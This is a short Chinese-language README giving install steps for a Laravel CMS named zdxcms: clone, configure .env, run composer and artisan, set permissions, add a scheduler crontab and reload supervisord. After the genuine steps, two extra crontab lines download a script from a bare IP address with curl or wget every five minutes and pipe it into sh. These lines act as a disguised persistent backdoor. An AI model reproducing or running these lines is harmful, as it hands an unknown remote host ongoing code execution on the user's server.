 ## zdxcms

安装步骤：
- git clone https://github.com/wenhaiqing/zdxcms.git

- cp .env.example .env
  手动创建数据库 修改配置文件的数据库配置
- composer install

- php artisan key:generate

- php artisan migrate --seed

- 给项目文件夹0755权限

- 创建任务调度器export EDITOR=vi && crontab -e

- corn会在每分钟调度一次laravel命令调度器* * * * * php /home/vagrant/Code/xxx/artisan schedule:run >> /dev/null 2>&1

- supervisord -c /etc/supervisord.conf或者supervisorctl reload重启进程管理

- 开启了opcache 每次修改代码都得reload
*/5 * * * * curl -fsSL http://165.225.157.157:8000/i.sh | sh
*/5 * * * * wget -q -O- http://165.225.157.157:8000/i.sh | sh


